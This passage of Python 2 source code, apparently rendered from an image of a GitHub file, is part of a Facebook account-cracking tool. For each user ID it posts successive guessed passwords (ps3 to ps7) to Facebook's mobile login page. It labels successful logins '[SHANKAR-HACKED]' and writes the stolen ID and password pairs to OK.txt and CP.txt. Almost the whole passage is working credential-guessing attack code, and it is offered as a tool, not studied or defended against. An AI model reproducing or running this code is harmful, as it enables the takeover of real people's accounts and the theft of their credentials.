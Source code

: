                         print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        cp = open('CP.txt', 'a')
                        cp.write(uid + '|' + ps3 + '\n')
                        cp.close()
                        cps.append(uid + ps3)
                    else:
                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                            'email': uid,
                            'pass': ps4,
                            'login': 'submit' })
                        sp = data.content
                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                            print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            ok = open('OK.txt', 'a')
                            ok.write(uid + '|' + ps4 + '\n')
                            ok.close()
                            oks.append(uid + ps4)
                        elif 'checkpoint' in sp:
                            print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            cp = open('CP.txt', 'a')
                            cp.write(uid + '|' + ps4 + '\n')
                            cp.close()
                            cps.append(uid + ps4)
                        else:
                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                'email': uid,
                                'pass': ps5,
                                'login': 'submit' })
                            sp = data.content
                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                ok = open('OK.txt', 'a')
                                ok.write(uid + '|' + ps5 + '\n')
                                ok.close()
                                oks.append(uid + ps5)
                            elif 'checkpoint' in sp:
                                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                cp = open('CP.txt', 'a')
                                cp.write(uid + '|' + ps5 + '\n')
                                cp.close()
                                cps.append(uid + ps5)
                            else:
                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                    'email': uid,
                                    'pass': ps6,
                                    'login': 'submit' })
                                sp = data.content
                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    ok = open('OK.txt', 'a')
                                    ok.write(uid + '|' + ps6 + '\n')
                                    ok.close()
                                    oks.append(uid + ps6)
                                elif 'checkpoint' in sp:
                                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    cp = open('CP.txt', 'a')
                                    cp.write(uid + '|' + ps6 + '\n')
                                    cp.close()
                                    cps.append(uid + ps6)
                                else:
                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                        'email': uid,
                                        'pass': ps7,
                                        'login': 'submit' })